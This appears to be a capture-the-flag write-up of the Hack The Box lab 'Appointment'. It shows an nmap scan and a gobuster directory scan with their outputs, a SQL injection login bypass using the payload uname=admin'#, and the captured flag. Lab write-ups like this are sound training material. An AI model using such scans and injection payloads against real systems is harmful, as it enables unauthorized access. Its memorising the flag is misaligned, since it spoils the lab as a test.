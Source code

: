 ```yaml
---
title: "HTB: appointment"
date: 2022-04-29T21:54:03-07:00
draft: false
tags: ["web"]
categories: ["htb"]
---
```


### nmap
Strating with an nmap.

```
# Nmap 7.92 scan initiated Fri Apr 29 16:22:44 2022 as: nmap -sV -sC -oA nmap/appointment 10.129.22.167
Nmap scan report for 10.129.22.167
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 29 16:22:56 2022 -- 1 IP address (1 host up) scanned in 12.20 seconds
```

Nothing too interesting here.

### gobuster
Pivoted to gobuster to see subdirectories:\
`gobuster dir -u http://10.129.22.167 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

```
/images               (Status: 301) [Size: 315] [--> http://10.129.22.167/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.22.167/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.22.167/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.22.167/vendor/]
```

### sqlinjection

After looking at the webage, the input forms seemed potentially vulnerable to sqlinjection.

`uname=admin'#` payload granted the flag.

---
**flag:**
`e3d0796d002a446c0e622226f42e9672`